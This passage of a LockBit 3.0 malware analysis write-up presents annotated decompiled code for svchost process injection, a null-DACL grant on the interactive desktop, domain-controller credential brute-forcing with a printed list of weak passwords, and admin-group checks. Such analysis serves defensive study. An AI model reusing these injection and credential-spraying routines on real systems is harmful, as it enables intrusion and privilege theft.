		If the privilege is present, the function closes the token and process handles, frees the allocated buffer, and returns the process ID. Otherwise, it continues iterating until the list ends. If no process matched, it returns `0`.
```assembly
MOV        dword ptr [EBP + local_8], 0       ; local_8 = 0 → return value = PID
MOV        dword ptr [EBP + local_c], 0       ; local_c = 0 → boolean match result
MOV        dword ptr [EBP + local_18], 0x400  ; local_18 = 1024 → alloc size
PUSH       dword ptr [EBP + local_18]         ; param = alloc size
CALL       allocate_data_processheap_antidbg  ; alloc buffer on heap
MOV        dword ptr [EBP + local_1c], EAX    ; save pointer to allocated buffer
	LAB_0040ac50:
LEA        EAX, [EBP + local_18]              ; ptr to return size
PUSH       EAX                                ; 4th param: ReturnLength
PUSH       dword ptr [EBP + local_18]         ; 3rd param: Length
PUSH       dword ptr [EBP + local_1c]         ; 2nd param: buffer
PUSH       0x5       ; 1st param: SystemInformationClass = SystemProcessInformation
CALL       dword ptr [NtQuerySystemInformation] ; query system process list
TEST       EAX, EAX                           ; check NTSTATUS
JNZ        LAB_0040ac6a                       ; if error, handle it
JMP        LAB_0040ac96                       ; on success, go to parsing
	LAB_0040ac6a:
CMP        EAX, 0xC0000004                    ; STATUS_INFO_LENGTH_MISMATCH
JNZ        LAB_0040ac83                       ; if not length mismatch, exit
PUSH       dword ptr [EBP + local_18]         ; reallocation size
PUSH       dword ptr [EBP + local_1c]         ; original buffer
CALL       reallocate_data_processheap_antidbg ; resize heap buffer
MOV        dword ptr [EBP + local_1c], EAX    ; update buffer ptr
JMP        LAB_0040ac50                       ; retry query with new size
	LAB_0040ac83:
PUSH       dword ptr [EBP + local_1c]         ; cleanup heap
CALL       rtl_freeheap_antidbg_func
MOV        EAX, dword ptr [EBP + local_c]     ; return 0
RET
	LAB_0040ac96:
MOV       EBX, dword ptr [EBP + local_1c] ; EBX = ptr to SYSTEM_PROCESS_INFORMATION
	LAB_0040ac99:
MOV        ESI, dword ptr [EBX]               ; ESI = NextEntryOffset
CMP     dword ptr [EBX + 0x3C], 0 ; offset 0x3C = UNICODE_STRING.Buffer (ImageName)
JZ         LAB_0040ad9d                       ; skip if ImageName is NULL
PUSH       0
PUSH       dword ptr [EBX + 0x3C]             ; push ptr to process name
CALL       custom_hashing_function            ; hash process name
CMP        EAX, 0xB7E02438                    ; check against expected hash
JNZ        LAB_0040ad9d                       ; skip if not match
MOV        EAX, dword ptr [EBX + 0x44]        ; offset 0x44 = UniqueProcessId
MOV        dword ptr [EBP + local_24], EAX    ; save PID
MOV        dword ptr [EBP + local_20], 0      ; ClientId.HighPart = 0
...
; prepare OBJECT_ATTRIBUTES in local_3c
MOV        dword ptr [EBP + local_3c], 0x18
MOV        dword ptr [EBP + local_38], 0
MOV        dword ptr [EBP + local_34], 0
MOV        dword ptr [EBP + local_30], 0
MOV        dword ptr [EBP + local_2c], 0
MOV        dword ptr [EBP + local_28], 0
MOV        dword ptr [EBP + local_14], 0      ; hProcess = 0
...
; NtOpenProcess(hProcess, ALL_ACCESS, ObjectAttributes, ClientId)
CALL       dword ptr [NtOpenProcess]
TEST       EAX, EAX
JNZ        LAB_0040ad9d                       ; if fails, skip entry
...
; NtOpenProcessToken(hProcess, TOKEN_QUERY, hToken)
CALL       dword ptr [NtOpenProcessToken]
TEST       EAX, EAX
JNZ        LAB_0040ad94                       ; if fails, close handle
; check for SeDebugPrivilege
MOV        dword ptr [EBP + local_50], 1      ; LUID = 1 (SeDebugPrivilege)
MOV        dword ptr [EBP + local_4c], 1
MOV        dword ptr [EBP + local_48], 7
MOV        dword ptr [EBP + local_44], 0
MOV        dword ptr [EBP + local_40], 2
MOV        dword ptr [EBP + local_c], 0       ; result = 0
...
CALL       dword ptr [ZwPrivilegeCheck]
TEST       EAX, EAX
JNZ        LAB_0040ad8b
CMP        dword ptr [EBP + local_c], 0
JZ         LAB_0040ad8b
; success: has SeDebugPrivilege
CALL       dword ptr [ZwClose]                ; close hToken
CALL       dword ptr [ZwClose]                ; close hProcess
MOV        EAX, dword ptr [EBX + 0x44]        ; get UniqueProcessId again
MOV        dword ptr [EBP + local_8], EAX     ; set return PID
JMP        LAB_0040ada8
    LAB_0040ad8b:                                
PUSH       dword ptr [EBP + local_10]
CALL       dword ptr [ZwClose]
	LAB_0040ad94:                                   
PUSH       dword ptr [EBP + local_14]
CALL       dword ptr [ZwClose]
	LAB_0040ad9d:
LEA        EBX, [EBX + ESI*1]                 ; next process entry
TEST       ESI, ESI
JNZ        LAB_0040ac99                       ; loop again
	LAB_0040ada8:
PUSH       dword ptr [EBP + local_1c]         ; free buffer
CALL       rtl_freeheap_antidbg_func
MOV        EAX, dword ptr [EBP + local_8]     ; return matched PID
RET
```
.
		To see this value, we will first make, after `get_explorer_securitydelegation_token()`, the following `JUMPs` to `NOPs`.
		<div align="center"></div>
		<div align="center"></div>
		<div align="center"></div>
		There we can clearly see that it's attempting to get the **svchost.exe** proccess ID (`PID`).
		<div align="center"></div>
		So the function attempts to retrieve svchost.exe exclusively if it has the `SeDebugPrivilege`.
		Based on this, we will rename the function to `find_svchost_with_debug_privilege`:
		<div align="center"></div>
	- is_process_wow64 (FUN_0040adbc):
		Calls [`ZwQueryInformationProcess`](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntqueryinformationprocess) with `ProcessInformationClass = ProcessWow64Information (26)`, [`source`](https://ntdoc.m417z.com/processinfoclass), to determine whether the specified process is running under WOW64 (the x86 emulator that allows Win32-based applications to run on 64-bit Windows). If successful, it sets `*param_2` to `1` if the process **is** WOW64, or `0` otherwise.
```c
bool FUN_00406e54(undefined4 param_1, uint *param_2)
{
  int status;        // NTSTATUS return value
  int wow64_ptr;     // Pointer result from ZwQueryInformationProcess
  // ZwQueryInformationProcess(param_1,ProcessWow64Information=26,&wow64_ptr,4,0)
  status = (*ZWQueryInformationProcess)(param_1, 26, &wow64_ptr, 4, 0);
  if (status == 0) {
    // If pointer non-null, process is running under WOW64 → param_2 = 1
    // Otherwise, param_2 = 0 (native 64-bit process)
    *param_2 = (uint)(wow64_ptr != 0);
  }
  return status == 0; // Return true if API call succeeded
}
```
.
		If we debug it by replacing most of the `JUMPs` with `NOPs`, in order to force entry into this function, the invoked routines don't behave as expected. This could be due to bypassing earlier logic that prepares or initializes required conditions.
		The result with x32dbg is `1`, as we could expect, because with Detect It Easy we could see that it was an executable of 32 bits, and we are running it on a machine with an architecture of 64 bits, so it will be running under WOW64:
		<div align="center"></div>
		Based on this, we will rename the function to `is_process_wow64`:
		<div align="center"></div>
	- inject_payload_and_wait_remote_thread (FUN_0040adbc):
		The function first allocates a memory region using [`NtAllocateVirtualMemory`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory) of `0x2cf` bytes in size, with the flag `0x3000` (which is `MEM_COMMIT | MEM_RESERVE`).  
		According to [`VirtualAlloc flags`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), `MEM_COMMIT` allocates physical memory (RAM or pagefile), while `MEM_RESERVE` just reserves a range of virtual addresses.
		Once the memory region is successfully allocated, the function writes a payload of `param_3` bytes at the allocated base address (`local_10`) using [`ZwWriteVirtualMemory`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntwritevirtualmemory).
		If the write succeeds, it invokes [`CreateRemoteThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread), specifying the allocated region (`local_10`) as the thread’s entry point, causing the remote process (`param_1`) to execute the injected code.
		The function then waits for the thread to complete with [`WaitForSingleObject`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) and retrieves its return value (exit code) with [`GetExitCodeThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getexitcodethread).  
		Finally, it releases the allocated memory with [`NtFreeVirtualMemory`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntfreevirtualmemory) and returns the exit code from the executed remote thread.
```c
undefined4 FUN_0040adbc(undefined4 param_1, undefined4 param_2, undefined4 param_3)
{
  local_8 = 0;         // local_8 = 0 → return value (ExitCode)
  local_10 = 0;        // local_10 = 0 → base address for allocation
  local_14 = 0x2cf;    // local_14 = 719 bytes → size to allocate
// NtAllocateVirtualMemory(hProcess=param_1, BaseAddress=&local_10, ..., 
// Size=0x2cf, MEM_COMMIT|RESERVE, PAGE_EXECUTE_READWRITE)
  iVar1 = (*NtAllocateVirtualMemory)(param_1, &local_10, 0, &local_14, 0x3000, 0x40);
  if (iVar1 == 0) {
// ZwWriteVirtualMemory(hProc=param_1,bAddress=local_10,buff=param_2,Size=param_3)
    iVar1 = (*ZwWriteVirtualMemory)(param_1, local_10, param_2, param_3, 0);
    if (iVar1 == 0) {
      // CreateRemoteThread(hProcess=param_1, StartAddress=local_10)
      local_c = (*CreateRemoteThread)(param_1, 0, 0, local_10, 0, 0, 0);
      if (local_c != 0) {
        // Wait until thread finishes execution
        (*WaitForSingleObject)(local_c, 0xffffffff);
        // GetExitCodeThread(hThread, &exitCode)
        (*GetExitCodeThread)(local_c, &local_8);
        // Close handle to the thread
        (*ZwClose)(local_c);
      }
    }
    // Free allocated memory after execution
    local_14 = 0;
    (*NtFreeVirtualMemory)(param_1, &local_10, &local_14, 0x8000);
  }
  return local_8;                       // Return exit code of the remote thread
}
```
.
		Based on the functionality, the function will be renamed to `inject_payload_and_wait_remote_thread`:
		<div align="center"></div>
	So the whole function attempts to inject a payload into svchost.exe with two different payloads, depending on if the process is running on WOW64. Because we are not executing the debugged program in a special environment, most of the instructions will fail, so we cannot see this alternate code flow easily. But this function is the replacement for getting an impersonated token of **explorer.exe**, so it will attempt to retrieve an elevated token of svchost.exe through process injection.
	Because of this, we will rename the function to `get_svchost_token_w_processinjection_adaptive`:
	<div align="center"></div>
  
- get_console_session_user_token (FUN_0040ac00):
	The function through [`QueryUserToken`](https://learn.microsoft.com/en-us/windows/win32/api/wtsapi32/nf-wtsapi32-wtsqueryusertoken) and the session ID, [`INTERNAL_TS_ACTIVE_CONSOLE_ID (0x7FFE02D8)`](https://learn.microsoft.com/en-us/windows/win32/devnotes/getting-the-active-console-session-id), which can be seen at [`ReactOS Documentation`](https://doxygen.reactos.org/d6/d9e/include_2reactos_2wine_2winternl_8h_source.html#l01875), attempts to retrieve a handle to the **primary access token** of the user currently logged into the **physical (console) session**.
```c
undefined4 FUN_0040ac00(void)
{
  token = 0;
  // 0x7ffe02d8 = INTERNAL_TS_ACTIVE_CONSOLE_ID, 
  // retrieves active Terminal Services console session 
  (*QueryUserToken)(_DAT_7ffe02d8,&token); 
  return token;
}
```
.
	We will rename the function to `get_console_session_user_token`:
	<div align="center"></div>

- bypass_gui_acl_with_null_dacl (FUN_004072b4):
	This function attempts to modify the **security descriptors** (ACLs) of the **Window Station** and **Desktop** objects used by the GUI subsystem on Windows. Specifically the **window station** `"WinSta0"` and the desktop `"default"`, which is the default input desktop for the interactive window station (`Winsta0\default`) as can be seen in [`Microsoft Documentation`](https://learn.microsoft.com/en-gb/windows/win32/winstation/window-station-and-desktop-creation). Then it calls the next functions:
	- [`OpenWindowStationW`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-openwindowstationw) to open the window station `WinSta0`:
		<div align="center"></div>
    
	- [`NtSetSecurityObject`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntsetsecurityobject) to set the [`SECURITY_INFORMATION`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/security-information) to [`DACL_SECURITY_INFORMATION`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/security-information#dacl_security_information)(`0x4`) based on [`ReactOS Documentation`](https://doxygen.reactos.org/da/d86/xdk_2setypes_8h_source.html#l00123) and also the [`SECURITY_DESCRIPTOR`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ns-ntifs-_security_descriptor). As you can see in the image, the [`SECURITY_DESCRIPTOR_CONTROL`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/security-descriptor-control) is `SE_DACL_PRESENT` (`0x4`), which, if the flag is set and the DACL is NULL, the security descriptor allows full access to everyone:
		<div align="center"></div>
    

| Offset    | Field              | Value        | Description                                                                                     |
| --------- | ------------------ | ------------ | ----------------------------------------------------------------------------------------------- |
| 0x00      | Revision           | `0x01`       | Revision of the structure                                                                       |
| 0x01      | Sbz1               | `0x00`       | Zero byte of padding                                                                            |
| 0x02      | Control (low byte) | `0x04`       | SE_DACL_PRESENT (0x0004)                                                                        |
| 0x03      | Control (high)     | `0x00`       | High byte of Control field.                                                                     |
| 0x04–0x07 | Owner SID ptr      | `0x00000000` | NULL (not set).                                                                                 |
| 0x08–0x0B | Group SID ptr      | `0x00000000` | NULL (not set).                                                                                 |
| 0x0C–0x0F | SACL ptr           | `0x00000000` | NULL (not set).                                                                                 |
| 0x10–0x13 | DACL ptr           | `0x00000000` | NULL (not set). Although SE_DACL_PRESENT is set, the pointer is NULL -> full access to everyone |

.
    - [`OpenDesktopW`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-opendesktopw) to open the `"default"` desktop
        <div align="center"></div>
    Then it applies the same security descriptor to the desktop as it did with the window station.
	If both succeed, return `1`, otherwise `0`.
```c
undefined4 FUN_004072b4(void) {
    local_20 = 0x690057             // Unicode "W" + "i" + "n"  (Win)
    local_1c = 0x53006e             // Unicode "n" + "S"        (nS)
    local_18 = 0x610074             // Unicode "t" + "a"        (ta)
    local_14 = 0x30             // Unicode "0"         (→ full string: "WinSta0")
    local_30 = 0x650044             // Unicode "D" + "e"
    local_2c = 0x610066             // Unicode "f" + "a"
    local_28 = 0x6c0075             // Unicode "u" + "l"
    local_24 = 0x74             // Unicode "t"         (→ full string: "Default")
    (*memset)(&local_94, 0, 100) // Zero out SECURITY_DESCRIPTOR buffer (100 bytes)
	...
	// Set SECURITY_INFORMATION = DACL_SECURITY_INFORMATION
	local_94 = CONCAT22(4, (undefined2)local_94) 
	local_84 = &local_6c        // local_84 points to modified SECURITY_DESCRIPTOR
	local_8 = 0                    // Final return value = 0 (fail)
	local_c = 0                    // handle to Window Station = 0
	local_10 = 0                   // handle to Desktop = 0
	// Open "WinSta0" with WRITE_DAC access
	local_c = (*OpenWindowStationW)(&local_20, 0, 0x40000) 
	if (local_c != 0 &&
	    (iVar2 = (*NtSetSecurityObject)(local_c, 4, &local_94), iVar2 == 0) &&
	    (local_10 = (*OpenDesktopW)(&local_30, 0, 0, 0x40081), local_10 != 0) &&
	    (iVar2 = (*NtSetSecurityObject)(local_10, 4, &local_94), iVar2 == 0)) {
	    local_8 = 1                // If all succeed, return success
	}
	if (local_10 != 0) {
	    (*CloseDesktop)(local_10) // Close Desktop handle
	}
	if (local_c != 0) {
	    (*CloseWindowStation)(local_c) // Close Window Station handle
	}
	return local_8     // Return 1 if ACLs were set successfully, 0 otherwise
}
```
.
	Since this function attempts to grant **full access** to **everyone** by applying a **NULL Discretionary Access Control List (DACL)** to the **window station** and **desktop**, which are core components of the graphical user interface (GUI), we will rename the function to `bypass_gui_acl_with_null_dacl`:
	<div align="center"></div>
  
So after attempting multiple bypasses and getting elevated permissions from multiple techniques, it continues executing additional logic.
<div align="center"></div>

Now it checks at the address `DAT_00425122` if there is not a zero, which is data that was retrieved at `prepare_payload_and_config_data_func()`, specifically the `DAT_00425120`, which we originally suspected were some kind of flags, as it only had `1` at multiple positions, which with this we can confirm are flags for executing customised code of the malware, because LockBit is Ransomware as a Service (RaaS) that can be customised.
<div align="center"></div>

Then it executes the function `FUN_0040b1ac()`, storing its result to `DAT_00425168`, which, if it's not empty, then it executes `FUN_0040b5b8()` and frees the heap of data previously used with `rtl_freeheap_antidbg_func()` if it's running as a normal user.
<div align="center"></div>

Now we will analyse both functions that we still didn't analyse.
- store_valid_dc_credential_from_list (FUN_0040b1ac):
	Before proceeding, the nested functions that have not yet been covered were analysed; their details will follow the explanation of this function. 
	This function begins by decoding the data at `DAT_00425154` using `base64_decoder_func`. This value, originally base64-encoded, was retrieved earlier via `prepare_payload_and_config_data_func()`. After decoding, it applies `two_round_xor_decryption_func()` to decrypt the data. As we will see later, the decrypted content contains a list of usernames and credentials intended for authentication attempts.
	The function then calls `get_domain_controller_name_func()` to retrieve the name of the domain controller. If the current machine is part of a domain, it proceeds to iterate over the credential list and attempts to authenticate each entry against the domain controller by creating a thread with [`CreateThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) at the function `attempt_dclogon_and_get_token()`.  
	If one of the authentication attempts succeeds, it stores the corresponding username, password, and domain name in encrypted form, separately, for use in further interactions with the domain controller and returns the token retrieved at `attempt_dclogon_and_get_token()`.
```c
int FUN_0040b1ac(void)
{
  local_c = 0;  // Return value = 0 by default
  // Get decoded size of Base64-encoded buffer at DAT_00425154
  iVar2 = calculate_base64_decoded_size((int)DAT_00425154);   
  // Allocate heap memory with space for decoded buffer + 2 bytes
  uVar5 = allocate_data_processheap_antidbg(iVar2 + 2);
  puVar4 = (uint *)uVar5;
  if (puVar4 != (uint *)0x0) {
    // Decode Base64 into allocated buffer
    base64_decoder_func(extraout_ECX, (int)((ulonglong)uVar5 >> 0x20), DAT_00425154, (byte *)puVar4);
    // Free original encoded Base64 buffer
    rtl_freeheap_antidbg_func(DAT_00425154);      
    // Decrypt decoded data with 2-round XOR
    two_round_xor_decryption_func((byte *)puVar4, iVar2);
    // Save decrypted buffer back to DAT_00425154
    DAT_00425154 = puVar4;
    // Retrieve the domain controller name and store it into local_20c
    iVar2 = get_domain_controller_name_func(local_20c);
    if (iVar2 != 0) {
      do {
        // Copy current string from puVar4 into local_10c
        (*wcscpy)(local_10c, puVar4);
        // Look for ':' separator in the copied string
        puVar3 = (undefined2 *)(*wcschr)(local_10c, 0x3a);
        if (puVar3 != (undefined2 *)0x0) {
          *puVar3 = 0;                  // Null-terminate string at ':'
          local_218 = local_10c;        // Username part before ':'
          local_210 = puVar3 + 1;       // Password part after ':'
          local_214 = local_20c;        // Domain controller name
          local_c = 0;
          local_8 = 0;
          // Launch thread to test credentials
          local_8 = (*CreateThread)(0, 0, attempt_dclogon_and_get_token, &local_218, 4, 0);
          if (local_8 != 0) {
            (*ResumeThread)(local_8);                           // Start thread
            iVar2 = (*WaitForSingleObject)(local_8, 3000);      // Wait up to 3 sec
            if (iVar2 == 0x102) {
              (*ZwTerminateThread)(local_8, 0);            // Timeout → kill thread
            } else {
              (*GetExitCodeThread)(local_8, &local_c);     // Get result (token)
            }
            (*ZwClose)(local_8);                           // Close thread handle
            if (local_c != 0) {  // If credentials succeeded
              // Copy and store encrypted password
              iVar2 = (*wcslen)(local_210);
              DAT_00425164 = alloc_copy_and_encrypt_with_size_prefix((undefined *)local_210, iVar2 * 2 + 2);
              // Copy and store encrypted username
              puVar1 = local_218;
              iVar2 = (*wcslen)(local_218);
              DAT_0042515c = alloc_copy_and_encrypt_with_size_prefix(puVar1, iVar2 * 2 + 2);
              // Copy and store encrypted domain controller
              puVar1 = local_214;
              iVar2 = (*wcslen)(local_214);
              DAT_00425160 = alloc_copy_and_encrypt_with_size_prefix(puVar1, iVar2 * 2 + 2);
              break;  // Stop after first success
            }
          }
        }
        // Move to next null-terminated string (each entry is wchar*)
        iVar2 = (*wcslen)(puVar4);
        puVar4 = (uint *)((int)puVar4 + iVar2 * 2 + 2);
      } while (*(short *)puVar4 != 0); // Stop at double-null
    }
    // Free decrypted credentials buffer
    rtl_freeheap_antidbg_func(DAT_00425154);
  }
  return local_c;  // Return token if a credential was succesful
}
```
.
	- get_domain_controller_name_func (FUN_00412674):
		The function queries the name of a domain controller using  [`DsGetDcNameW`](https://learn.microsoft.com/en-us/windows/win32/api/dsgetdc/nf-dsgetdc-dsgetdcnamew) and copies the `DomainControllerName` (located at offset `0x1C` in the returned `DOMAIN_CONTROLLER_INFO` structure) into `param_1` with [`wcscpy`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strcpy-wcscpy-mbscpy?view=msvc-170). It returns `1` on success, `0` otherwise.
```c
typedef struct _DOMAIN_CONTROLLER_INFO {
  LPWSTR DomainControllerName; // offset 0x1C
  ...
} DOMAIN_CONTROLLER_INFO;
```

```c
undefined4 FUN_00412674(undefined4 param_1)
{
  local_8 = 0;                          // Default return value = 0 (failure)
  iVar1 = (*DsGetDcNameW)(0,0,0,0,0,&local_c); // Query domain controller info
  if (iVar1 == 0) {                     // If call succeeded (ERROR_SUCCESS)
	// Copy DC hostname to param_1 (offset 0x1c)
    (*wcscpy)(param_1, *(undefined4 *)(local_c + 0x1c)); 
    (*NetApiBufferFree)(local_c);       // Free structure returned by DsGetDcNameW
    local_8 = 1;                        // Success
  }
  return local_8;                      // Return 1 if DC name retrieved, else 0
}
```
.
	Because the function just retrieves the Domain Controller Name we will rename it to `get_domain_controller_name_func`:
	<div align="center"></div>
	- alloc_copy_and_encrypt_with_size_prefix (FUN_00406e18):
		The function allocates memory using `allocate_data_processheap_antidbg()`, copies `param_2` bytes from `param_1` into the newly allocated buffer, and then applies encryption with `two_round_xor_decryption_func`. The total allocated memory is `param_2 + 4` bytes, where the first 4 bytes store the size (`param_2`) as a prefix. This design allows other parts of the code to keep track of the data size before the actual buffer content. It returns a pointer to the start of the allocated buffer. If allocation fails, it returns `NULL`.
```c
int *FUN_00406e18(undefined *param_1, int param_2)
{
  // Allocate heap buffer with size = param_2 + 4 bytes (for storing length)
  buffer_base = (int *)allocate_data_processheap_antidbg(param_2 + 4);
  if (buffer_base != (int *)0x0) {
    *buffer_base = param_2;           // Store original length at offset 0
    data_ptr = buffer_base + 1;       // Point to buffer after the length
    // Copy each byte from input buffer into the allocated memory
    for (remaining = param_2; remaining != 0; remaining--) {
      *(undefined *)data_ptr = *param_1;
      param_1 = param_1 + 1;
      data_ptr = (int *)((int)data_ptr + 1);
    }
    // Decrypt the copied data using custom two-round XOR
    two_round_xor_decryption_func((byte *)(buffer_base + 1), param_2);
  }
  return buffer_base;   // Return pointer to buffer with size + decrypted data
}
```
.
		Based on the functionality we discussed, we will rename the function to `alloc_copy_and_encrypt_with_size_prefix`:
		<div align="center"></div>
	- attempt_dclogon_and_get_token (FUN_0040b17c):
		This function attempts to authenticate a user using the [`LogonUserW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonuserw) API with the interactive logon type (`LOGON32_LOGON_INTERACTIVE`, value `2`). It expects `param_1` to be a pointer to an array of three wide-character strings:
		- `param_1[0]`: The **username**.
		- `param_1[1]`: The **domain name**.
		- `param_1[2]`: The **password**.
		If the login is successful, it returns a handle to the user token. Otherwise, it returns `0`.
```c
undefined4 FUN_0040b17c(undefined4 *param_1)
{
  local_8 = 0;  // Handle for the user token (default = 0)
  // Attempt to log in with ,LogonUserW(user, dc, pass,
  // LOGON32_LOGON_INTERACTIVE,LOGON32_PROVIDER_DEFAULT, &local_8)
  (*LogonUserW)(*param_1, param_1[1], param_1[2], 2, 0, &local_8);
  return local_8;  // Return token handle (0 on failure)
}
```
.
		Based on this, the function will be renamed to `attempt_dclogon_and_get_token`:
		<div align="center"></div>
	If we debug it with x32dbg, we will be able to see the set of usernames and passwords after decoding and decrypting the data at `DAT_00425154`.
	<div align="center"></div>
	The set of usernames and passwords to be tested are the following:
		- `ad.lab:Qwerty!`
		- `Administrator:123QWEqwe!@#`
		- `Admin2:P@ssw0rd`
		- `Administrator:P@ssw0rd`
		- `Administrator:Qwerty!`
		- `Administrator:123QWEqwe`
		- `Administrator:123QWEqweqwe`
	Based on this, we will rename the function to `store_valid_dc_credential_from_list`:
	<div align="center"></div>
  
- check_token_admin_group (FUN_0040b5b8):
	The function checks whether the provided token (`param_1`) belongs to a privileged user. If no token is provided (`param_1 == 0`), it opens the current process token with [`TOKEN_QUERY`](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-for-access-token-objects) (`0x8`) access, as it can be seen in [`ReactOS Documentation`](https://doxygen.reactos.org/da/d86/xdk_2setypes_8h_source.html#l00927). It then queries the token for group membership information using [`NtQueryInformationToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntqueryinformationtoken) with `TokenGroups` (class 2). It allocates memory for the `TOKEN_GROUPS` structure, retrieves the group list, and iterates over each `SID_AND_ATTRIBUTES`. If it finds an SID (`S-1-5-{domain}-512`) with identifier authority `0x15` (`S-1-5`) and a subauthority ending in `0x200` (which corresponds to the domain administrators), it returns `1`, indicating the token has administrative privileges. Otherwise, it returns `0`.
```c
undefined4 FUN_0040b5b8(int param_1)
{
  local_8 = 0;                     // Return = 0 (default: not admin)
  if (param_1 == 0) {
    // Open current process token with TOKEN_QUERY (0x8)
    iVar1 = (*NtOpenProcessToken)(0xffffffff, 8, &local_c);
  } else {
    local_c = param_1;             // Use provided token handle
    iVar1 = 0;
  }

  if (iVar1 == 0) {                // If token was opened successfully
    // First call to get required buffer size for TOKEN_GROUPS
    (*NtQueryInformationToken)(local_c, 2, &local_14, 4, &local_10);
    // Allocate space for TOKEN_GROUPS
    local_14 = (int *)allocate_data_processheap_antidbg(local_10);
    if (local_14 != (int *)0x0) {
      // Second call to actually retrieve group info
      iVar1 = (*NtQueryInformationToken)(local_c, 2, local_14, local_10, &local_10);
      if (iVar1 == 0) {
        piVar2 = local_14 + 1;     // Point to first SID_AND_ATTRIBUTES
        iVar1 = *local_14;         // Number of groups
        do {
          // Check if SID is of type S-1-5-32-544 (identifier authority = 0x15)
          // and last RID (subauthority) == 0x200 (DOMAIN_ALIAS_RID_ADMINS)
          if ((*(int *)(*piVar2 + 8) == 0x15) && (*(int *)(*piVar2 + 0x18) == 0x200)) {
            local_8 = 1;           // Found admin group → set return to 1
            break;
          }
          piVar2 = piVar2 + 2;     // Move to next SID_AND_ATTRIBUTES
          iVar1 = iVar1 - 1;
        } while (iVar1 != 0);
      }
      rtl_freeheap_antidbg_func(local_14); // Free group info
    }
    if (param_1 == 0) {
      (*ZwClose)(local_c);         // Close token if we opened it
    }
  }
  return local_8;                 // Return 1 if admin group found, else 0
}
```
.
	Based on this, we will rename the function to `check_token_admin_group`:
	<div align="center"></div>
  

So first, from the list of Active Directory credentials stored at `DAT_00425154`, which was previously retrieved by the function `prepare_payload_and_config_data_func()`, the malware attempts to brute-force a valid login via `store_valid_dc_credential_from_list()`. If a username and password pair is valid, the domain controller name, username, and password are stored (all encrypted), and the associated user token is returned and saved in `DAT_00425168`.

Then, using `check_token_admin_group()`, it verifies whether the token belongs to an administrative group. If it does, the function `get_user_sid_result_func()` is called, checking if the actual process has privileges. If it returns `0`, it means the token does not meet the required privileges (e.g., it's a standard user), so all previously stored credentials are discarded: the memory allocated for the username (`DAT_0042515c`), domain controller (`DAT_00425160`), and password (`DAT_00425164`) is freed, the token is closed with [`ZwClose`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwClose.html), and `DAT_00425168` is reset to `0`.
<div align="center"></div>


Then after that it checks at `DAT_00425131` if the flag of LockBit is different from zero to be executed and if the previous DC logon token is not zero, and there it's an actual token. Then it checks with `is_running_user_token_as_system()` if it has enough permissions as `SYSTEM`, and then executes `FUN_004128e0()` which if it returns different from zero then it executes `FUN_004131e8()` and after that terminates the process with [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess). Otherwise it continues its execution.
<div align="center"></div>

- has_matching_hashed_argument (FUN_004128e0):
	This function retrieves the current process's command-line arguments, hashes each argument using a custom hashing function, and compares the result to a hardcoded value (`0x35D31849`). If any of the arguments match the target hash, the function returns `1`; otherwise, it returns `0`. It looks as if Lockbit 3.0 was invoked with a specific argument in order to decide the outcome of the upcoming logic.
```c
undefined4 FUN_004128e0(void)
{
  local_8 = 0;                                   // Return value = 0 by default
  local_c = 0;                                   // Argument list pointer = NULL
  uVar1 = retrieve_process_commandline_from_peb();  // Get command line (from PEB)
  // Split command line into arguments (argc → local_10, argv → uVar3)
  uVar3 = (*CommandLineToArgvW)(uVar1, &local_10); 
  puVar2 = (undefined4 *)uVar3;            // puVar2 = pointer to argument array
  local_c = puVar2;                        // Save pointer to free it later
  // Check if at least 2 arguments are present
  if ((puVar2 != 0) && (uVar1 = extraout_ECX, local_10 > 1)) {
    do {
      local_c = (undefined4 *)uVar3;             // Reload base pointer
      // Call hashing function on current argument string
      uVar4 = custom_hashing_function(uVar1, (int)((ulonglong)uVar3 >> 32), (ushort *)*puVar2, 0);
      // Keep updated pointer
      uVar3 = CONCAT44((int)((ulonglong)uVar4 >> 32), local_c); 
      if ((int)uVar4 == 0x35D31849) {  // Compare hash to target value
        local_8 = 1;                   // Found matching argument → set return to 1
        break;                         // Exit the loop and finish
      }
      local_10 = local_10 - 1;                   // Move to next argument
      uVar1 = extraout_ECX_00;
      puVar2 = puVar2 + 1;
    } while (local_10 != 0);
  }
  // Free memory allocated by CommandLineToArgvW
